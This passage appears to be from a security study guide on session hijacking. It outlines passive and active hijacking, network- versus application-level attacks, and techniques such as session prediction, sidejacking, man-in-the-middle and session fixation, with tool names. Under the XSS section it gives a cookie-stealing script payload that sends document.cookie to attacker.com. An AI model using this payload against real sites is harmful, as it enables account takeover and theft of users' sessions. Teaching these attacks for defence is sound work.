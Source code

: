 #### Passive Hijacking
- Attacker monitors and captures session data
- Original session remains intact
- Attacker gains information without disrupting communication
- **Examples**: Packet sniffing, Traffic monitoring

### 2. Network Level vs Application Level

#### Network Level Hijacking
- Targets network protocols (TCP, UDP)
- Operates at OSI Layer 3-4
- **Focus**: IP addresses, port numbers, sequence numbers

#### Application Level Hijacking
- Targets application layer protocols (HTTP, HTTPS)
- Operates at OSI Layer 7
- **Focus**: Session cookies, tokens, application-specific identifiers

---

## Session Hijacking Techniques

### 1. Session Prediction
- **Method**: Analyzing session token patterns
- **Target**: Predictable session IDs
- **Tools**: Custom scripts, Burp Suite
- **Vulnerability**: Weak session generation algorithms

### 2. Session Sidejacking (Session Sniffing)
- **Method**: Capturing unencrypted session tokens
- **Requirement**: Network access (same subnet/WiFi)
- **Tools**: Wireshark, Firesheep, Ettercap
- **Vulnerability**: Unencrypted HTTP communications

### 3. Cross-Site Scripting (XSS) for Session Theft
- **Method**: Injecting malicious JavaScript to steal cookies
- **Payload Example**: `<script>document.location='http://attacker.com/cookie.php?c='+document.cookie</script>`
- **Target**: Web applications with XSS vulnerabilities

### 4. Man-in-the-Middle (MITM)
- **Method**: Intercepting communication between client and server
- **Techniques**: ARP spoofing, DNS spoofing, Rogue access points
- **Tools**: Ettercap, Bettercap, MITMproxy

### 5. Session Fixation
- **Method**: Forcing victim to use attacker-controlled session ID
- **Process**: 
  1. Attacker obtains valid session ID
  2. Tricks victim into authenticating with this ID
  3. Attacker uses the same ID to access victim's account

---